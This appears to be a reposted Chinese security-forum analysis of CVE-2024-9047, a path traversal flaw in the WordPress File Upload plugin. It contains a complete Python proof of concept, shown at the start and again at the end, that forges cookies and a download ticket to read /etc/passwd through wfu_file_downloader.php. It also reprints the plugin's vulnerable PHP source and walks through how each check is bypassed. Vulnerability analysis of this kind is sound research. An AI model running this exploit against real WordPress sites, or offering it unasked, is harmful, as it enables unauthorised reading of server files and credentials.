








# CVE-2024-9047 (WordPress File Upload 插件漏洞分析）-先知社区

> **来源**: https://xz.aliyun.com/news/16364  
> **文章ID**: 16364

---

利用poc

```
import requests
from urllib.parse import urljoin
import time


def fileuploadcheck(url):
    timestamp = str(int(time.time()))
    target_url = urljoin(url, "/wp-content/plugins/wp-file-upload/wfu_file_downloader.php?"
                              "file=dr0se"
                              "&dboption_base=cookies"
                              "&handler=dboption"                   
                              "&session_legacy=1"
                              "&dboption_useold=1"
                              "&wfu_cookie=wp_wpfileupload_dr0se"
                              "&ticket=dr0se")
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
        "Cookie": f"wp_wpfileupload_dr0se=1;"
                  f" wfu_storage_dr0se=/../../../../../etc/passwd;"
                  f" wfu_download_ticket_dr0se={timestamp}; "
                  f"wfu_ABSPATH=/;"
    }

    try:
        response = requests.get(target_url, verify=False, headers=headers, timeout=10)
        print(response.text)
    except Exception as e:
        print(f"Error while checking {url}: {e}")


if __name__ == "__main__":
    url = input()
    fileuploadcheck(url)

```

对这个脚本进行解释。漏洞在于wfu\_file\_downloader.php中  
源码我下下来了。

```
<?php
if ( !defined("ABSWPFILEUPLOAD_DIR") ) DEFINE("ABSWPFILEUPLOAD_DIR", dirname(__FILE__).'/');
if ( !defined("WFU_AUTOLOADER_PHP50600") ) DEFINE("WFU_AUTOLOADER_PHP50600", 'vendor/modules/php5.6/autoload.php');
include_once( ABSWPFILEUPLOAD_DIR.'lib/wfu_functions.php' );
include_once( ABSWPFILEUPLOAD_DIR.'lib/wfu_security.php' );
$handler = (isset($_POST['handler']) ? $_POST['handler'] : (isset($_GET['handler']) ? $_GET['handler'] : '-1'));
$session_legacy = (isset($_POST['session_legacy']) ? $_POST['session_legacy'] : (isset($_GET['session_legacy']) ? $_GET['session_legacy'] : ''));
$dboption_base = (isset($_POST['dboption_base']) ? $_POST['dboption_base'] : (isset($_GET['dboption_base']) ? $_GET['dboption_base'] : '-1'));
$dboption_useold = (isset($_POST['dboption_useold']) ? $_POST['dboption_useold'] : (isset($_GET['dboption_useold']) ? $_GET['dboption_useold'] : ''));
$wfu_cookie = (isset($_POST['wfu_cookie']) ? $_POST['wfu_cookie'] : (isset($_GET['wfu_cookie']) ? $_GET['wfu_cookie'] : ''));
if ( $handler == '-1' || $session_legacy == '' || $dboption_base == '-1' || $dboption_useold == '' || $wfu_cookie == '' ) die();
else {
    $GLOBALS["wfu_user_state_handler"] = wfu_sanitize_code($handler);
    $GLOBALS["WFU_GLOBALS"]["WFU_US_SESSION_LEGACY"] = array( "", "", "", ( $session_legacy == '1' ? 'true' : 'false' ), "", true );
    $GLOBALS["WFU_GLOBALS"]["WFU_US_DBOPTION_BASE"] = array( "", "", "", wfu_sanitize_code($dboption_base), "", true );
    $GLOBALS["WFU_GLOBALS"]["WFU_US_DBOPTION_USEOLD"] = array( "", "", "", ( $dboption_useold == '1' ? 'true' : 'false' ), "", true );
    if ( !defined("WPFILEUPLOAD_COOKIE") ) DEFINE("WPFILEUPLOAD_COOKIE", wfu_sanitize_tag($wfu_cookie));
    wfu_download_file();
}

function wfu_download_file() {
    global $wfu_user_state_handler;
    $file_code = (isset($_POST['file']) ? $_POST['file'] : (isset($_GET['file']) ? $_GET['file'] : ''));
    $ticket = (isset($_POST['ticket']) ? $_POST['ticket'] : (isset($_GET['ticket']) ? $_GET['ticket'] : ''));
    if ( $file_code == '' || $ticket == '' ) die();

    wfu_initialize_user_state();

    $ticket = wfu_sanitize_code($ticket);    
    $file_code = wfu_sanitize_code($file_code);
    //if download ticket does not exist or is expired die
    if ( !WFU_USVAR_exists_downloader('wfu_download_ticket_'.$ticket) || time() > WFU_USVAR_downloader('wfu_download_ticket_'.$ticket) ) {
        WFU_USVAR_unset_downloader('wfu_download_ticket_'.$ticket);
        WFU_USVAR_unset_downloader('wfu_storage_'.$file_code);
        wfu_update_download_status($ticket, 'failed');
        die();
    }
    //destroy ticket so it cannot be used again
    WFU_USVAR_unset_downloader('wfu_download_ticket_'.$ticket);

    //if file_code starts with exportdata, then this is a request for export of
    //uploaded file data, so disposition_name wont be the filename of the file
    //but wfu_export.csv; also set flag to delete file after download operation
    if ( substr($file_code, 0, 10) == "exportdata" ) {
        $file_code = substr($file_code, 10);
        //$filepath = wfu_get_filepath_from_safe($file_code);
        $filepath = WFU_USVAR_downloader('wfu_storage_'.$file_code);
        $disposition_name = "wfu_export.csv";
        $delete_file = true;
    }
    //if file_code starts with debuglog, then this is a request for download of
    //debug_log.txt
    elseif ( substr($file_code, 0, 8) == "debuglog" ) {
        $file_code = substr($file_code, 8);
        //$filepath = wfu_get_filepath_from_safe($file_code);
        $filepath = WFU_USVAR_downloader('wfu_storage_'.$file_code);
        $disposition_name = wfu_basename($filepath);
        $delete_file = false;
    }
    else {
        //$filepath = wfu_get_filepath_from_safe($file_code);
        $filepath = WFU_USVAR_downloader('wfu_storage_'.$file_code);
        if ( $filepath === false ) {
            WFU_USVAR_unset_downloader('wfu_storage_'.$file_code);
            wfu_update_download_status($ticket, 'failed');
            die();
        }
        $filepath = wfu_flatten_path($filepath);
        if ( substr($filepath, 0, 1) == "/" ) $filepath = substr($filepath, 1);
        $filepath = ( substr($filepath, 0, 6) == 'ftp://' || substr($filepath, 0, 7) == 'ftps://' || substr($filepath, 0, 7) == 'sftp://' ? $filepath : WFU_USVAR_downloader('wfu_ABSPATH').$filepath );
        $disposition_name = wfu_basename($filepath);
        $delete_file = false;
    }
    //destroy file code as it is no longer needed
    WFU_USVAR_unset_downloader('wfu_storage_'.$file_code);
    //check that file exists
    if ( !wfu_file_exists_for_downloader($filepath) ) {
        wfu_update_download_status($ticket, 'failed');
        die('<script language="javascript">alert("'.( WFU_USVAR_exists_downloader('wfu_browser_downloadfile_notexist') ? WFU_USVAR_downloader('wfu_browser_downloadfile_notexist') : 'File does not exist!' ).'");</script>');
    }

    $open_session = false;
    @set_time_limit(0); // disable the time limit for this script
    $fsize = wfu_filesize_for_downloader($filepath);
    if ( $fd = wfu_fopen_for_downloader($filepath, "rb") ) {
        $open_session = ( ( $wfu_user_state_handler == "session" || $wfu_user_state_handler == "" ) && ( function_exists("session_status") ? ( PHP_SESSION_ACTIVE !== session_status() ) : ( empty(session_id()) ) ) );
        if ( $open_session ) session_start();
        header('Content-Type: application/octet-stream');
        header("Content-Disposition: attachment; filename=\"".$disposition_name."\"");
        header('Content-Transfer-Encoding: binary');
        header('Connection: Keep-Alive');
        header('Expires: 0');
        header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
        header('Pragma: public');
        header("Content-length: $fsize");
        $failed = false;
        while( !feof($fd) ) {
            $buffer = @fread($fd, 1024*8);
            echo $buffer;
            ob_flush();
            flush();
            if ( connection_status() != 0 ) {
                $failed = true;
                break;
            }
        }
        fclose ($fd);
    }
    else $failed = true;

    if ( $delete_file ) wfu_unlink_for_downloader($filepath);

    if ( !$failed ) {
        wfu_update_download_status($ticket, 'downloaded');
        if ( $open_session ) session_write_close();
        die();
    }
    else {
        wfu_update_download_status($ticket, 'failed');
        if ( $open_session ) session_write_close();
        die('<script type="text/javascript">alert("'.( WFU_USVAR_exists_downloader('wfu_browser_downloadfile_failed') ? WFU_USVAR_downloader('wfu_browser_downloadfile_failed') : 'Could not download file!' ).'");</script>');
    }
}

function wfu_update_download_status($ticket, $new_status) {
    require_once WFU_USVAR_downloader('wfu_ABSPATH').'wp-load.php';
    WFU_USVAR_store('wfu_download_status_'.$ticket, $new_status);
}

function WFU_USVAR_exists_downloader($var) {
    global $wfu_user_state_handler;
    if ( $wfu_user_state_handler == "dboption" && WFU_VAR("WFU_US_DBOPTION_BASE") == "cookies" ) return isset($_COOKIE[$var]);
    else return WFU_USVAR_exists_session($var);
}

function WFU_USVAR_downloader($var) {
    global $wfu_user_state_handler;
    if ( $wfu_user_state_handler == "dboption" && WFU_VAR("WFU_US_DBOPTION_BASE") == "cookies" ) return $_COOKIE[$var];
    else return WFU_USVAR_session($var);
}

function WFU_USVAR_unset_downloader($var) {
    global $wfu_user_state_handler;
    if ( $wfu_user_state_handler == "session" || $wfu_user_state_handler == "" ) WFU_USVAR_unset_session($var);
}

function wfu_file_exists_for_downloader($filepath) {
    if ( substr($filepath, 0, 7) != "sftp://" ) return file_exists($filepath);
    $ret = false;
    $ftpinfo = wfu_decode_ftpurl($filepath);
    if ( $ftpinfo["error"] ) return $ret;
    $data = $ftpinfo["data"];
    {
        $conn = @ssh2_connect($data["ftpdomain"], $data["port"]);
        if ( $conn && @ssh2_auth_password($conn, $data["username"], $data["password"]) ) {
            $sftp = @ssh2_sftp($conn);
            $ret = ( $sftp && @file_exists("ssh2.sftp://".intval($sftp).$data["filepath"]) );
        }
    }

    return $ret;
}

function wfu_filesize_for_downloader($filepath) {
    if ( substr($filepath, 0, 7) != "sftp://" ) return filesize($filepath);
    $ret = false;
    $ftpinfo = wfu_decode_ftpurl($filepath);
    if ( $ftpinfo["error"] ) return $ret;
    $data = $ftpinfo["data"];
    {
        $conn = @ssh2_connect($data["ftpdomain"], $data["port"]);
        if ( $conn && @ssh2_auth_password($conn, $data["username"], $data["password"]) ) {
            $sftp = @ssh2_sftp($conn);
            if ( $sftp ) $ret = @filesize("ssh2.sftp://".intval($sftp).$data["filepath"]);
        }
    }

    return $ret;
}

function wfu_fopen_for_downloader($filepath, $mode) {
    if ( substr($filepath, 0, 7) != "sftp://" ) 
        return @fopen($filepath, $mode);
    $ret = false;
    $ftpinfo = wfu_decode_ftpurl($filepath);
    if ( $ftpinfo["error"] ) return $ret;
    $data = $ftpinfo["data"];
    {
        $conn = @ssh2_connect($data["ftpdomain"], $data["port"]);
        if ( $conn && @ssh2_auth_password($conn, $data["username"], $data["password"]) ) {
            $sftp = @ssh2_sftp($conn);
            if ( $sftp ) {
                //$ret = @fopen("ssh2.sftp://".intval($sftp).$data["filepath"], $mode);
                $contents = @file_get_contents("ssh2.sftp://".intval($sftp).$data["filepath"]);
                $stream = fopen('php://memory', 'r+');
                fwrite($stream, $contents);
                rewind($stream);
                $ret = $stream;
            }
        }
    }

    return $ret;
}

function wfu_unlink_for_downloader($filepath) {
    if ( substr($filepath, 0, 7) != "sftp://" ) return @unlink($filepath);
    $ret = false;
    $ftpinfo = wfu_decode_ftpurl($filepath);
    if ( $ftpinfo["error"] ) return $ret;
    $data = $ftpinfo["data"];
    {
        $conn = @ssh2_connect($data["ftpdomain"], $data["port"]);
        if ( $conn && @ssh2_auth_password($conn, $data["username"], $data["password"]) ) {
            $sftp = @ssh2_sftp($conn);
            if ( $sftp ) $ret = @unlink("ssh2.sftp://".intval($sftp).$data["filepath"]);
        }
    }

    return $ret;
}

```

在这个链接里面可以找到老版本下载,附件我也放了一个  
<https://cn.wordpress.org/plugins/wp-file-upload/advanced/>

先关注到这个cve的利用点



wfu\_fopen\_for\_downloader会存在fopen函数的直接调用。不经过严格过滤就可以出现路径遍历漏洞。

我们查看源码中哪里利用了这个函数。  
发现是在wfu\_download\_file函数中。而wfu\_download\_file会直接调用。  
那我们的poc中就是要控制参数就好。  
查看核心利用的filepath参数的由来：

  
发现filepath是通过WFU\_USVAR\_downloader去解析获得的。  
那跟踪一下这个函数。

  
是由一个if判断然后返回cookie中的var，这个var就是wfu\_storage.$file\_code  
所以我们需要在cookie中传入一个wfu\_storage开头的字段，然后跟上文件名，再让我们的文件名去遍历利用fopen这个函数，就可以达成利用。  
就比如我在cookie中定义了一个  
wfu\_storage\_dr0se=/../../../../../etc/passwd;  
我就需要传参一个  
file=dr0se，这样就可以完成利用。

之前我们分析了要过一个if判断。

  
追踪一下。wfu\_user\_state\_handler是一个全局变量  
是通过解析handler字段得来的

  
另一个则是解析dboption\_base字段为cookies来判断得来的。所以我们需要传入handler和dbption\_base字段来过if判断

```
import requests
from urllib.parse import urljoin
import time


def fileuploadcheck(url):
    timestamp = str(int(time.time()))

    target_url = urljoin(url, "/wp-content/plugins/wp-file-upload/wfu_file_downloader.php?"
                              "file=dr0se"
                              "&dboption_base=cookies"
                              "&handler=dboption"
                              )
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
        "Cookie": f" wfu_storage_dr0se=/../../../../../etc/passwd;"

    }

    try:
        response = requests.get(target_url, verify=False, headers=headers, timeout=10)
        print(response.text)
    except Exception as e:
        print(f"Error while checking {url}: {e}")


if __name__ == "__main__":
    url = input()
    fileuploadcheck(url)

```

这就是我们的payload，但是报错。所以我们需要再看看是不是有遗漏的地方。



在最开始的时候有一个if判断，如果没有满足是直接die()的。这个if判断需要我们传入参数来控制。对payload进行修改。  
这里需要注意wfu\_cookie不能为空,同时还要从cookie中获取一个不为空的值。

  
在wfu\_download\_file()函数里面还有对file和ticket的验证

  
ticket还有时间验证，所以我们还需要对ticket进行时间赋值的操作。  
最后

  
定位到源代码的70行，这里有对协议进行判断，如果都不是，我们还需要给一个根路径。所以最后payload为

```
import requests
from urllib.parse import urljoin
import time


def fileuploadcheck(url):
    timestamp = str(int(time.time()))
    target_url = urljoin(url, "/wp-content/plugins/wp-file-upload/wfu_file_downloader.php?"
                              "file=dr0se"
                              "&dboption_base=cookies"
                              "&handler=dboption"                   
                              "&session_legacy=1"
                              "&dboption_useold=1"
                              "&wfu_cookie=wp_wpfileupload_dr0se"
                              "&ticket=dr0se")
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36",
        "Cookie": f"wp_wpfileupload_dr0se=1;"
                  f" wfu_storage_dr0se=/../../../../../etc/passwd;"
                  f" wfu_download_ticket_dr0se={timestamp}; "
                  f"wfu_ABSPATH=/;"
    }

    try:
        response = requests.get(target_url, verify=False, headers=headers, timeout=10)
        print(response.text)
    except Exception as e:
        print(f"Error while checking {url}: {e}")


if __name__ == "__main__":
    url = input()
    fileuploadcheck(url)

```
